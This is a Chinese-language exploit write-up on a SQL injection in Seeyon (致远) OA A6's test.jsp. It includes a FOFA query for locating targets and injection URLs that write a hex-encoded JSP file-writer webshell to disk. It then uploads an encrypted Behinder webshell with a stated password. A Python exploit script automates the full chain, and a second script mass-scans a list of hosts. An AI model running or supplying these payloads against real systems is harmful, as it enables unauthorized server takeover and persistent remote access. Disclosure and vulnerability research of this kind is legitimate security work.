






# 致远OA-A6-test.jsp-SQL注入漏洞

## 漏洞描述

致远OA A6 test.jsp 存在sql注入漏洞，并可以通过注入写入webshell文件控制服务器

## 漏洞影响

> [!NOTE]
>
> 致远OA A6

## FOFA

> [!NOTE]
>
> title="致远A8+协同管理软件.A6"

## 漏洞复现

访问URL

```
http://xxx.xxx.xxx.xxx/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20database())
```


返回了当前使用的数据库

要想写入shell需要知道写入的路径


这里得到路径 D:\Program Files\UFseeyon\OA\mysql\bin\..\

通过 into outfile 写入文件，这里因为 jsp木马存在特殊符号，使用 hex编码 上传允许文件上传的jsp文件

```jsp
<%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\\")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%>

HEX编码

3C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C5C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E
```

```
http://xxx.xxx.xxx.xxx/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20unhex(%273C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E%27)%20%20into%20outfile%20%27E:/Program Files/UFseeyon/OA/tomcat/webapps/yyoa/test_upload.jsp%27
```



显示上图则上传成功，访问 test_upload.jsp 为空白不报错页面不存在就是上传成功

在发送请求包上传webshell，这里上传冰蝎

> [!NOTE]
>
> 注意上传的webshell需要url编码一下



```
http://xxx.xxx.xxx.xxx/yyoa/peiqi_upload.jsp?f=testwebshell.jsp

t=%3C%25%40page%20import%3D%22java.util.*%2Cjavax.crypto.*%2Cjavax.crypto.spec.*%22%25%3E%3C%25!class%20U%20extends%20ClassLoader%7BU(ClassLoader%20c)%7Bsuper(c)%3B%7Dpublic%20Class%20g(byte%20%5B%5Db)%7Breturn%20super.defineClass(b%2C0%2Cb.length)%3B%7D%7D%25%3E%3C%25if%20(request.getMethod().equals(%22POST%22))%7BString%20k%3D%22e45e329feb5d925b%22%3Bsession.putValue(%22u%22%2Ck)%3BCipher%20c%3DCipher.getInstance(%22AES%22)%3Bc.init(2%2Cnew%20SecretKeySpec(k.getBytes()%2C%22AES%22))%3Bnew%20U(this.getClass().getClassLoader()).g(c.doFinal(new%20sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext)%3B%7D%25%3E
```

连接木马



## 漏洞利用POC

> [!NOTE]
>
> EXP木马上传

```python
import requests
import sys
import random
import re
import base64
import time
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 致远OA                                                   \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20@@basedir)"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, verify=False, timeout=5)
        if '序号' in response.text and "@@basedir" in response.text and response.status_code == 200:
            OA_dir = re.findall(r'>(.*)\\UFseeyon\\', response.text)[0]
            OA_dir = OA_dir[:2] + '/' + OA_dir[3:]
            print("\033[32m[o] 目标 {}存在漏洞, 安装路径为:{} \033[0m".format(target_url, OA_dir))
            webshell_name = "test_upload{}.jsp".format(random.randint(1,999))
            OA_dir = OA_dir + "/UFseeyon/OA/tomcat/webapps/yyoa/{}".format(webshell_name)
            POC_2(target_url, OA_dir, webshell_name)
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url), e)

def POC_2(target_url, OA_dir, webshell_name):
    vuln_url = target_url + "/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20unhex(%273C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E%27)%20%20into%20outfile%20%27{}%27".format(OA_dir)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, verify=False, timeout=5)
        if 'already' in response.text and  response.status_code == 200:
            print("\033[32m[o] 文件写入木马上传失败，目标已存在相同文件，请重新运行\033[0m")
        elif "No Data" in response.text and  response.status_code == 200:
            print("\033[32m[o] 文件写入木马上传成功，上传路径为 {}\033[0m".format(OA_dir))
            POC_3(target_url, webshell_name)
        else:
            print("\033[31m[x] 目标 {} 木马上传失败 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url), e)

def POC_3(target_url, webshell_name):
    rebe_webshell = "testwebshell{}.jsp".format(random.randint(1,999))
    vuln_url = target_url + "/yyoa/{}?f={}".format(webshell_name, rebe_webshell)
    data = "t=%3C%25%40page%20import%3D%22java.util.*%2Cjavax.crypto.*%2Cjavax.crypto.spec.*%22%25%3E%3C%25!class%20U%20extends%20ClassLoader%7BU(ClassLoader%20c)%7Bsuper(c)%3B%7Dpublic%20Class%20g(byte%20%5B%5Db)%7Breturn%20super.defineClass(b%2C0%2Cb.length)%3B%7D%7D%25%3E%3C%25if%20(request.getMethod().equals(%22POST%22))%7BString%20k%3D%22e45e329feb5d925b%22%3Bsession.putValue(%22u%22%2Ck)%3BCipher%20c%3DCipher.getInstance(%22AES%22)%3Bc.init(2%2Cnew%20SecretKeySpec(k.getBytes()%2C%22AES%22))%3Bnew%20U(this.getClass().getClassLoader()).g(c.doFinal(new%20sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext)%3B%7D%25%3E"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        print("\033[32m[o] 正在请求：{}\033[0m".format(vuln_url))
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        if response.status_code == 200:
            print("\033[32m[o] 木马上传成功, 路径为:{}/yyoa/{}\033[0m".format(target_url, rebe_webshell))
            print("\033[32m[o] 请使用冰蝎连接，密码为: rebeyond\033[0m")
        else:
            print("\033[31m[x] 木马上传失败，可能被拦截 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url), e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```



> [!NOTE]
>
> 多个目标测试

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 致远OA A6                                              \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20md5(1))"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "c4ca4238a0b923820dcc509a6f75849b" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞,下载地址:{} \033[0m".format(target_url, vuln_url))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

def Scan(file_name):
    with open(file_name, "r", encoding='utf8') as scan_url:
        for url in scan_url:
            if url[:4] != "http":
                url = "http://" + url
            url = url.strip('\n')
            try:
                POC_1(url)

            except Exception as e:
                print("\033[31m[x] 请求报错 \033[0m".format(e))
                continue

if __name__ == '__main__':
    title()
    file_name  = str(input("\033[35mPlease input Attack File\nFile >>> \033[0m"))
    Scan(file_name)
```



## Goby & POC

> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Seeyon_OA_A6_test.jsp_SQL_injection

